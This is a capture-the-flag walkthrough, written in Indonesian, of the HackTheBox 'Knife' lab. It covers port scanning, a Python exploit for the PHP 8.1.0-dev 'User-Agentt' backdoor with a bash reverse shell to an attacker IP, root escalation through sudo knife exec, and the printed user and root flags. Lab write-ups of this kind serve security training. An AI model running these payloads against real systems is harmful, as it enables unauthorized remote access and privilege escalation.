

## Reconnaissance

Hal yang pertama kita lakukan, kita harus melakukan enumeration terhadap running service yang ada di target machine. Disini saya menggunakan tools nmap.

```bash
┌──(chjwoo㉿hackbox)-[~/hackthebox/machines/knife]
└─$ sudo nmap -sVC -Pn -p- 10.129.32.22 --min-rate=1000 -T4 -oN nmap_results
[sudo] password for chjwoo: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-30 22:42 WIB
Nmap scan report for 10.129.32.22
Host is up (0.039s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.75 seconds

```

### Analyzing running services

- Port 22, is running ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.2
- Port 80, is running web server using Apache httpd 2.4.41 ((Ubuntu))

### Discovery web server

Ketika kita buka website pada ip tersebut, terdapat sebuah tampilan statis, tidak ada informasi yang kita bisa manfaatkan jadi, langkah selanjutnya melakukan directory enumeration.



### Directory enumeration

Pada directory enumeration kita tidak mendapatkan apa apa. 

```bash
┌──(chjwoo㉿hackbox)-[~/hackthebox/machines/knife]
└─$ gobuster dir -u http://10.129.32.22/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.32.22/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
Progress: 87662 / 87662 (100.00%)
===============================================================
Finished
===============================================================

```

Disini saya menggunakan extension google chrome yaitu Wappalyzer untuk mengetahui bahasa pemrograman yang digunakan. 


## Foothold

Ternyata terdapat vulnerability pada version PHP 8.1.0-dev. Disini saya membaca sebuah artikel, dimana exploitnya ini dikarenakan terdapat sebuah backdoor yang disisipkan oleh malicious actor pada Header User-Agentt. Pada vulnerability ini kita bisa melakukan Remote Code Execution (RCE). 

[https://github.com/twseptian/php-8.1.0-dev-user-agentt-backdoor-docker-lab](https://github.com/twseptian/php-8.1.0-dev-user-agentt-backdoor-docker-lab)

Lalu saya membuat simple script python seperti berikut untuk melakukan request ke target.

```bash
import requests
import re

URL = "http://10.129.32.22/"

def exploit():
    payload = "id" 
    headers = f"zerodiumsystem('{payload}');"
    response = requests.get(URL, headers={"User-Agentt": headers})
    response_clean = re.split(r'<!DOCTYPE html>', response.text)[0]
    print(response_clean)

if __name__ == "__main__":
    exploit()
```

Hasilnya seperti ini

```bash
┌──(chjwoo㉿hackbox)-[~/hackthebox/machines/knife]
└─$ python exploit.py
uid=1000(james) gid=1000(james) groups=1000(james)

```

Disini kita bisa langsung saja melakukan reverse shell.

```bash
import requests
import re

URL = "http://10.129.32.22/"

def exploit():
    payload = "\"bash -c 'bash -i >& /dev/tcp/10.10.14.65/7777 0>&1'\"" 
    headers = f"zerodiumsystem({payload});"
    response = requests.get(URL, headers={"User-Agentt": headers})
    response_clean = re.split(r'<!DOCTYPE html>', response.text)[0]
    print(response_clean)

if __name__ == "__main__":
    exploit()
```

Jangan lupa untuk melakukan listen netcat nya.

```bash
┌──(chjwoo㉿hackbox)-[~/hackthebox/machines/knife]
└─$ nc -lnvp 7777
listening on [any] 7777 ...
connect to [10.10.14.65] from (UNKNOWN) [10.129.32.22] 57930
bash: cannot set terminal process group (883): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ 
james@knife:~$ cat user.txt
15e1d6db8eb016a354b73197917a277a

```

Dikarenakan terminalnya dummy jadi kamu harus upgrade terminalnya menggunakan

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'

CTRL+Z

stty raw -echo
fg

export TERM=xterm
```

## Privilege Escalation

Untuk melakukan privilege escalation kita bisa melakukan pengecekan terhadap file binary yang bisa dijalankan sebagai root. Dengan cara seperti berikut:

```bash
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
james@knife:~$ 

```

Terdapat file binary /usr/bin/knife yang kemungkinan kita bisa exploitasi untuk melakukan privilege escalation.

```bash
james@knife:~$ /usr/bin/knife
ERROR: You need to pass a sub-command (e.g., knife SUB-COMMAND)

Usage: knife sub-command (options)
    -s, --server-url URL             Chef Infra Server URL.
        --chef-zero-host HOST        Host to start Chef Infra Zero on.
        --chef-zero-port PORT        Port (or port range) to start Chef Infra Zero on. Port ranges like 1000,1010 or 8889-9999 will try all given ports until one works.
    -k, --key KEY                    Chef Infra Server API client key.
        --[no-]color                 Use colored output, defaults to enabled.
    -c, --config CONFIG              The configuration file to use.
        --config-option OPTION=VALUE Override a single configuration option.
        --defaults                   Accept default values for all questions.
    -d, --disable-editing            Do not open EDITOR, just accept the data as is.
    -e, --editor EDITOR              Set the editor to use for interactive commands.
    -E, --environment ENVIRONMENT    Set the Chef Infra Client environment (except for in searches, where this will be flagrantly ignored).
        --[no-]fips                  Enable FIPS mode.
    -F, --format FORMAT              Which format to use for output. (valid options: 'summary', 'text', 'json', 'yaml', or 'pp')
        --[no-]listen                Whether a local mode (-z) server binds to a port.
    -z, --local-mode                 Point knife commands at local repository instead of Chef Infra Server.
    -u, --user USER                  Chef Infra Server API client username.
        --print-after                Show the data after a destructive operation.
        --profile PROFILE            The credentials profile to select.
    -V, --verbose                    More verbose output. Use twice (-VV) for additional verbosity and three times (-VVV) for maximum verbosity.
    -v, --version                    Show Chef Infra Client version.
    -y, --yes                        Say yes to all prompts for confirmation.
    -h, --help                       Show this help message.

Available subcommands: (for details, knife SUB-COMMAND --help)

** CHEF ORGANIZATION MANAGEMENT COMMANDS **
knife opc org create ORG_SHORT_NAME ORG_FULL_NAME (options)
knife opc org delete ORG_NAME
knife opc org edit ORG
knife opc org list
knife opc org show ORGNAME
knife opc org user add ORG_NAME USER_NAME
knife opc org user remove ORG_NAME USER_NAME
knife opc user create USERNAME FIRST_NAME [MIDDLE_NAME] LAST_NAME EMAIL PASSWORD
knife opc user delete USERNAME [-d] [-R]
knife opc user edit USERNAME
knife opc user list
knife opc user password USERNAME [PASSWORD | --enable-external-auth]
knife opc user show USERNAME

** ACL COMMANDS **
knife acl add MEMBER_TYPE MEMBER_NAME OBJECT_TYPE OBJECT_NAME PERMS
knife acl bulk add MEMBER_TYPE MEMBER_NAME OBJECT_TYPE REGEX PERMS
knife acl bulk remove MEMBER_TYPE MEMBER_NAME OBJECT_TYPE REGEX PERMS
knife acl remove MEMBER_TYPE MEMBER_NAME OBJECT_TYPE OBJECT_NAME PERMS
knife acl show OBJECT_TYPE OBJECT_NAME

** AZURE COMMANDS **
knife azure ag create (options)
knife azure ag list (options)
knife azure image list (options)
knife azure internal lb create (options)
knife azure internal lb list (options)
knife azure server create (options)
knife azure server delete SERVER [SERVER] (options)
knife azure server list (options)
knife azure server show SERVER [SERVER]
knife azure vnet create (options)
knife azure vnet list (options)

** AZURERM COMMANDS **
knife azurerm server create (options)
knife azurerm server delete SERVER [SERVER] (options)
knife azurerm server list (options)
knife azurerm server show SERVER (options)

** BASE COMMANDS **
Usage: /usr/bin/knife (options)

** BOOTSTRAP COMMANDS **
knife bootstrap [PROTOCOL://][USER@]FQDN (options)
knife bootstrap azure SERVER (options)
knife bootstrap azurerm SERVER (options)
Usage: /usr/bin/knife (options)
knife bootstrap windows ssh FQDN (options) DEPRECATED
knife bootstrap windows winrm FQDN (options) DEPRECATED

** CLIENT COMMANDS **
knife client bulk delete REGEX (options)
knife client create CLIENTNAME (options)
knife client delete [CLIENT [CLIENT]] (options)
knife client edit CLIENT (options)
knife client key create CLIENT (options)
knife client key delete CLIENT KEYNAME (options)
knife client key edit CLIENT KEYNAME (options)
knife client key list CLIENT (options)
knife client key show CLIENT KEYNAME (options)
knife client list (options)
knife client reregister CLIENT (options)
knife client show CLIENT (options)

** COMMAND COMMANDS **
Usage: /usr/bin/knife (options)

** CONFIG COMMANDS **
knife config list (options)
knife config show [OPTION...] (options)
Displays the value of Chef::Config[OPTION] (or all config values)
knife config use [PROFILE]

** CONFIGURE COMMANDS **
knife configure (options)
knife configure client DIRECTORY

** COOKBOOK COMMANDS **
knife cookbook bulk delete REGEX (options)
knife cookbook delete COOKBOOK VERSION (options)
knife cookbook download COOKBOOK [VERSION] (options)
knife cookbook list (options)
knife cookbook metadata COOKBOOK (options)
knife cookbook metadata from file FILE (options)
knife cookbook show COOKBOOK [VERSION] [PART] [FILENAME] (options)
knife cookbook upload [COOKBOOKS...] (options)

** DATA BAG COMMANDS **
knife data bag create BAG [ITEM] (options)
knife data bag delete BAG [ITEM] (options)
knife data bag edit BAG ITEM (options)
knife data bag from file BAG FILE|FOLDER [FILE|FOLDER..] (options)
knife data bag list (options)
knife data bag show BAG [ITEM] (options)

** EC2 COMMANDS **
knife ec2 ami list (options)
knife ec2 eni list (options)
knife ec2 flavor list (options) [DEPRECATED]
knife ec2 securitygroup list (options)
knife ec2 server create (options)
knife ec2 server delete SERVER [SERVER] (options)
knife ec2 server list (options)
knife ec2 subnet list (options)
knife ec2 vpc list (options)

** ENVIRONMENT COMMANDS **
knife environment compare [ENVIRONMENT..] (options)
knife environment create ENVIRONMENT (options)
knife environment delete ENVIRONMENT (options)
knife environment edit ENVIRONMENT (options)
knife environment from file FILE [FILE..] (options)
knife environment list (options)
knife environment show ENVIRONMENT (options)

** EXEC COMMANDS **
knife exec [SCRIPT] (options)

** GOOGLE COMMANDS **
knife google disk create NAME --gce-disk-size N (options)
knife google disk delete NAME [NAME] (options)
knife google disk list
knife google image list
knife google project quotas
knife google region list
knife google region quotas
knife google server create NAME -m MACHINE_TYPE -I IMAGE (options)
knife google server delete INSTANCE_NAME [INSTANCE_NAME] (options)
knife google server list
knife google server show INSTANCE_NAME (options)
knife google zone list

** GROUP COMMANDS **
knife group add MEMBER_TYPE MEMBER_NAME GROUP_NAME
knife group create GROUP_NAME
knife group destroy GROUP_NAME
knife group list
knife group remove MEMBER_TYPE MEMBER_NAME GROUP_NAME
knife group show GROUP_NAME

** KNIFE COMMANDS **
Usage: /usr/bin/knife (options)

** NODE COMMANDS **
knife node bulk delete REGEX (options)
knife node create NODE (options)
knife node delete [NODE [NODE]] (options)
knife node edit NODE (options)
knife node environment set NODE ENVIRONMENT
knife node from file FILE (options)
knife node list (options)
knife node policy set NODE POLICY_GROUP POLICY_NAME (options)
knife node run_list add [NODE] [ENTRY [ENTRY]] (options)
knife node run_list remove [NODE] [ENTRY [ENTRY]] (options)
knife node run_list set NODE ENTRIES (options)
knife node show NODE (options)

** PATH-BASED COMMANDS **
knife delete [PATTERN1 ... PATTERNn]
knife deps PATTERN1 [PATTERNn]
knife diff PATTERNS
knife download PATTERNS
knife edit [PATTERN1 ... PATTERNn]
knife list [-dfR1p] [PATTERN1 ... PATTERNn] (options)
knife show [PATTERN1 ... PATTERNn] (options)
knife upload PATTERNS (options)
knife xargs [COMMAND] (options)

** RAW COMMANDS **
knife raw REQUEST_PATH (options)

** RECIPE COMMANDS **
knife recipe list [PATTERN]

** REHASH COMMANDS **
knife rehash

** RESOURCE COMMANDS **
Usage: /usr/bin/knife (options)

** ROLE COMMANDS **
knife role bulk delete REGEX (options)
knife role create ROLE (options)
knife role delete ROLE (options)
knife role edit ROLE (options)
knife role env_run_list add [ROLE] [ENVIRONMENT] [ENTRY [ENTRY]] (options)
knife role env_run_list clear [ROLE] [ENVIRONMENT] (options)
knife role env_run_list remove [ROLE] [ENVIRONMENT] [ENTRIES] (options)
knife role env_run_list replace [ROLE] [ENVIRONMENT] [OLD_ENTRY] [NEW_ENTRY] (options)
knife role env_run_list set [ROLE] [ENVIRONMENT] [ENTRIES] (options)
knife role from file FILE [FILE..] (options)
knife role list (options)
knife role run_list add [ROLE] [ENTRY [ENTRY]] (options)
knife role run_list clear [ROLE] (options)
knife role run_list remove [ROLE] [ENTRY] (options)
knife role run_list replace [ROLE] [OLD_ENTRY] [NEW_ENTRY] (options)
knife role run_list set [ROLE] [ENTRIES] (options)
knife role show ROLE (options)

** SEARCH COMMANDS **
knife search INDEX QUERY (options)

** SERVE COMMANDS **
knife serve (options)

** SERVER COMMANDS **
Usage: /usr/bin/knife (options)
Usage: /usr/bin/knife (options)
Usage: /usr/bin/knife (options)
Usage: /usr/bin/knife (options)

** SSH COMMANDS **
knife ssh QUERY COMMAND (options)

** SSL COMMANDS **
knife ssl check [URL] (options)
knife ssl fetch [URL] (options)

** STATUS COMMANDS **
knife status QUERY (options)

** SUPERMARKET COMMANDS **
knife supermarket download COOKBOOK [VERSION] (options)
knife supermarket install COOKBOOK [VERSION] (options)
knife supermarket list (options)
knife supermarket search QUERY (options)
knife supermarket share COOKBOOK [CATEGORY] (options)
knife supermarket show COOKBOOK [VERSION] (options)
knife supermarket unshare COOKBOOK

** TAG COMMANDS **
knife tag create NODE TAG ...
knife tag delete NODE TAG ...
knife tag list NODE

** TIDY COMMANDS **
knife tidy backup clean (options)
knife tidy notify (options)
knife tidy server clean (options)
knife tidy server report (options)

** USER COMMANDS **
knife user create USERNAME DISPLAY_NAME FIRST_NAME LAST_NAME EMAIL PASSWORD (options)
knife user delete USER (options)
knife user dissociate USERNAMES
knife user edit USER (options)
knife user invite add USERNAMES
knife user invite list
knife user invite rescind [USERNAMES] (options)
knife user key create USER (options)
knife user key delete USER KEYNAME (options)
knife user key edit USER KEYNAME (options)
knife user key list USER (options)
knife user key show USER KEYNAME (options)
knife user list (options)
knife user reregister USER (options)
knife user show USER (options)

** VAULT COMMANDS **
knife vault create VAULT ITEM VALUES (options)
knife vault delete VAULT ITEM (options)
knife vault download VAULT ITEM PATH (options)
knife vault edit VAULT ITEM (options)
knife vault isvault VAULT ITEM (options)
knife vault itemtype VAULT ITEM (options)
knife vault list (options)
knife vault refresh VAULT ITEM
knife vault remove VAULT ITEM VALUES (options)
knife vault rotate all keys
knife vault rotate keys VAULT ITEM (options)
knife vault show VAULT [ITEM] [VALUES] (options)
knife vault update VAULT ITEM VALUES (options)

** VCENTER COMMANDS **
knife vcenter cluster list
knife vcenter datacenter list
knife vcenter host list
knife vcenter vm clone NAME (options)
knife vcenter vm create NAME
knife vcenter vm delete NAME [NAME] (options)
knife vcenter vm list
knife vcenter vm show NAME (options)

** VSPHERE COMMANDS **
knife vsphere cluster list
knife vsphere cpu ratio [CLUSTER] [HOST]
knife vsphere customization list
knife vsphere datastore file
knife vsphere datastore list
knife vsphere datastore maxfree
knife vsphere datastorecluster list
knife vsphere datastorecluster maxfree
knife vsphere folder list
knife vsphere hosts list
knife vsphere pool list
knife vsphere pool query POOLNAME QUERY. See "https://pubs.vmware.com/vi3/sdk/ReferenceGuide/vim.ComputeResource.html" for allowed QUERY values.
knife vsphere pool show POOLNAME QUERY. See "https://pubs.vmware.com/vi3/sdk/ReferenceGuide/vim.ComputeResource.html" for allowed QUERY values.
knife vsphere template list
knife vsphere vlan create NAME VID
knife vsphere vlan list
knife vsphere vm cdrom VMNAME (options)
knife vsphere vm clone VMNAME (options)
knife vsphere vm config VMNAME PROPERTY VALUE (PROPERTY VALUE)...
          See "https://www.vmware.com/support/developer/converter-sdk/conv60_apireference/vim.vm.ConfigSpec.html"
          for allowed ATTRIBUTE values (any property of type xs:string is supported).
knife vsphere vm delete VMNAME (options)
knife vsphere vm disk extend VMNAME SIZE. Extends the disk of vm VMNAME to SIZE kilobytes.
knife vsphere vm disk list VMNAME
knife vsphere vm execute VMNAME COMMAND ARGS
knife vsphere vm find
knife vsphere vm list
knife vsphere vm markastemplate VMNAME
knife vsphere vm migrate VMNAME (options)
knife vsphere vm move VMNAME
knife vsphere vm net STATE VMNAME
knife vsphere vm network add VMNAME NETWORKNAME
knife vsphere vm network delete VMNAME NICNAME
knife vsphere vm network list VMNAME
knife vsphere vm network set VMNAME NETWORKNAME
knife vsphere vm property get VMNAME PROPERTY. Gets a vApp Property on VMNAME.
knife vsphere vm property set VMNAME PROPERTY VALUE. Sets a vApp Property on VMNAME.
knife vsphere vm show VMNAME QUERY. See "https://pubs.vmware.com/vi3/sdk/ReferenceGuide/vim.VirtualMachine.html" for allowed QUERY values.
knife vsphere vm snapshot VMNAME (options)
knife vsphere vm state VMNAME (options)
knife vsphere vm toolsconfig VMNAME PROPERTY VALUE
          See "https://www.vmware.com/support/developer/vc-sdk/visdk25pubs/ReferenceGuide/vim.vm.ToolsConfigInfo.html"
          for available properties and types.
knife vsphere vm vmdk add VMNAME DISK_GB
knife vsphere vm vncset VMNAME
knife vsphere vm wait sysprep VMNAME (options)

** WINDOWS COMMANDS **
knife windows cert generate FILE_PATH (options)
knife windows cert install CERT [CERT] (options)
knife windows listener create (options)

** WINRM COMMANDS **
knife winrm QUERY COMMAND (options)

** WSMAN COMMANDS **
knife wsman test QUERY (options)

** YAML COMMANDS **
knife yaml convert YAML_FILENAME [RUBY_FILENAME]

```

Kita bisa mengecek apakah binary knife ini terdapat vulnerability atau tidak dengan mengeceknya pada website GTFObins

[https://gtfobins.github.io/gtfobins/knife/](https://gtfobins.github.io/gtfobins/knife/)

```bash
james@knife:~$ sudo knife exec -E 'exec "/bin/sh"'
# id
uid=0(root) gid=0(root) groups=0(root)
# 

```

Kita telah berhasil mendapatkan root! ternyata pada binary knife kita bisa menjalankan sebuah perintah. Disini kita bisa spawn shell dan jalankan binary knife nya dengan privilege root (sudo). Otomatis shell akan ter-spawn dengan privilege root.

```bash
# cat /root/root.txt
b8fe2120a64bea3eb7cb45319782e6aa

```

## Flags

```bash
User's Flag: 15e1d6db8eb016a354b73197917a277a
Root's Flag: b8fe2120a64bea3eb7cb45319782e6aa
```